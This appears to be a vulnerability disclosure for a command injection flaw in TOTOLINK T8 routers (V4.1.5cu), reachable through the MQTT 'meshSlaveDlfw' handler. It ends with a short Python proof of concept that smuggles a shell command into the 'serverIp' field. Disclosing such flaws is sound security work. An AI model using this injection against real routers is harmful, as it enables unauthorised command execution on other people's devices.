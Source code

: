 # A command injection vulnerability in the function meshSlaveDlfw of TOTOLINK Technology routers T8 V4.1.5cu allows attackers to execute arbitrary commands via a crafted MQTT packet.

## Description

A command injection vulnerability in the function meshSlaveDlfw of TOTOLINK Technology routers T8 V4.1.5cu allows attackers to execute arbitrary commands via a crafted MQTT packet.

![image-20230116184500942](images/2.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/

![image-20230116184157081](images/1.png)

* Firmware download address : https://totolink.com.my/wp-content/uploads/2023/01/TOTOLINK_C8195R-1C_T8_IP04455_8197F_SPI_16M128M_V4.1.5cu.741_B20210916_ALL.zip

## Affected version

**Version: V4.1.5cu**

## Vulnerability details

The `T8` router opens the `MQTT` service

![image-20230116185238612](images/5.png)

In function `meshSlaveDlfw`,The "serverIp" parameter does not filter user input, which can cause command injection vulnerabilities



![image-20230116192028632](images/3.png)

POC

```
import paho.mqtt.client as mqtt
client = mqtt.Client()
client.connect("192.168.0.1",1883,60)
client.publish("totolink/router/meshSlaveDlfw", b'{"serverIp": "|ls>/tmp/meshSlaveDlfw.txt|"}')
```

![image-20230116192100698](images/4.png)
